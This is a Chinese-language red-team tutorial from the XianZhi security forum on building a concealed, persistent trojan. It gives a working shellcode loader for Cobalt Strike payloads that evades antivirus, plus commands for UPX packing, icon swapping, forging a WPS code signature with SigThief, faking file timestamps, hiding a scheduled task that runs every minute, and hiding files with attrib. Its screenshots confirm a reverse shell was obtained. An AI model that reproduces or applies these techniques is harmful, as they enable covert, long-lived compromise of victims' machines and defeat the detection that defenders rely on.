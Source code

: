 

# 红队视角下的隐匿木马文件 实现持久化控制 - 先知社区

红队视角下的隐匿木马文件 实现持久化控制

- - -

### 前言

在红蓝对抗的过程中，远控木马起到了相当重要的作用，而面对蓝队技术人员的种种查杀，远控木马如何在目标机器上长久的存活下去

### 免杀马制作

cobalt strike生成shellcode.c  
[![](assets/1699257267-f19848466d0da4851c8b0243dcab12df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103223649-6c30ee5e-7a56-1.png)  
可以根据目标机器安装的杀毒软件制作有针对性的免杀马，当然，能够BypassAV是最好不过的了，为了节约时间成本，选择使用申请动态内存的方式加载shellcode生成免杀木马

```plain
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
unsigned char buf[] = 
"shellcode";
main()
{
  char *Memory; 
  Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(Memory, buf, sizeof(buf));
  ((void(*)())Memory)();
}
```

可以通过360的静态免杀，动态操作也没有任何报毒提示  
[![](assets/1699257267-c05cf0d49ff0c64dc24ccd58592ccbe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224138-18a68c70-7a57-1.png)

### 文件加壳

这里生成的shellcode为64为的执行代码，使用upx进行加壳

**项目地址**

[https://github.com/upx/upx](https://github.com/upx/upx)

```plain
.\upx.exe C:\Users\33519\Desktop\shellcode.exe
```

[![](assets/1699257267-e7817efcb34f6f54e0805997bf9ee264.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224231-37d6af94-7a57-1.png)  
文件加壳后属性对比  
[![](assets/1699257267-aeaca3e3da98a99ba8debe1ab3a6cbe9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224402-6e264bd6-7a57-1.png)

### 替换图标

使用BeCyIconGrabberPortable提取图标  
[![](assets/1699257267-071977a86f46731128456581bf92b5b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224500-90f2c8e2-7a57-1.png)  
**项目地址**  
[https://github.com/JarlPenguin/BeCyIconGrabberPortable](https://github.com/JarlPenguin/BeCyIconGrabberPortable)  
使用Resource hacker替换木马程序的图标  
[![](assets/1699257267-929ff6cb2e5b18123824dd41d006efc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224527-a0b6555a-7a57-1.png)

### 伪造签名

使用SigThief对木马程序进行数字签名伪造  
**项目地址**  
[https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)  
使用wps的数字签名进行伪造

```plain
python .\sigthief.py -i wps.exe -t .\shellcode.exe -o shellcode2.exe
```

[![](assets/1699257267-0f427220f3cbd486105e94f14ee3a754.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225005-46af7842-7a58-1.png)

-   \-i 自带签名的文件
-   \-t 未加签名的文件
-   \-o 输出文件  
    shellcode2为伪造数字签名后的木马文件  
    [![](assets/1699257267-351f258410a5bd1e41742c15511521b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225049-6095c0f4-7a58-1.png)

### 伪造文件修改时间

蓝队技术人员通常会在时间顺序上排查攻击者上传的文件，我们上传的木马文件是最新的，所以使用ChTimeStamp伪造文件修改的时间  
**项目地址**  
[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

```plain
ChTimeStamp.exe C:\Users\canxue\Desktop\shellcode2.exe "C:\Program Files (x86)\360\360Safe\360bps.dat"
```

[![](assets/1699257267-99072e9176e5811f51349b6ce3d718dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103230339-2b89734a-7a5a-1.png)  
360bps.bat为安装360时创建的文件，时间为一月份  
修改前后文件属性对比  
[![](assets/1699257267-a43e3d1ac9a277ee534d33b16dcbc240.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225115-7071a51a-7a58-1.png)  
[![](assets/1699257267-3683f66db245e7378bed1e5ed14c677d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225159-8a4587cc-7a58-1.png)

通过everything筛查文件不会发现近期上传的木马文件  
[![](assets/1699257267-180330b4a0ae59bf3c2337d8859797e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225215-94533408-7a58-1.png)  
[![](assets/1699257267-8632b8ba36713b33a73f595536e5fdc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225235-9ff7122a-7a58-1.png)

### 计划任务隐藏自启动木马程序

使用SchTask创建隐藏的自启动任务  
**项目地址**  
[https://github.com/0x727/SchTask\_0x727/tree/main](https://github.com/0x727/SchTask_0x727/tree/main)

```plain
选择主机随机进程名作为计划任务程序文件名
将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
创建的计划任务名取同一随机进程名
计划任务触发器以分钟为单位，无限期持续
更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
```

```plain
SchTask.exe shellcode2.exe 1
```

设置每分钟执行一次计划任务，计划任务为执行shellcode2.exe程序  
[![](assets/1699257267-fc7ec930e105372a62361bb9f0cebf73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225518-01456c02-7a59-1.png)  
被隐藏的计划任务，在注册表中可以看到  
[![](assets/1699257267-8ef4b99a59e18e440d0fd6cb90ebba93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225550-1460bb66-7a59-1.png)  
[![](assets/1699257267-64491ab2c221af3869ead291f613e704.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225610-204bb98a-7a59-1.png)  
一分钟后自动执行木马程序，cobalt strike可以正常接收到反弹的shell  
[![](assets/1699257267-cb9819a101e8e1a10329b1648cb81c9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225652-39517c58-7a59-1.png)  
可以正常上线，命令也可以正常执行  
[![](assets/1699257267-a683212f6bcb450dfbdda11f7dfe3585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225808-6684315c-7a59-1.png)

```plain
attrib +s +h +r
```

使用此命令深度隐藏木马文件，即使打开查看隐藏文件选项也无法显示文件  
[![](assets/1699257267-0d42a1799e5bd3fdabc592049a2d21c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225721-4a46bc62-7a59-1.png)
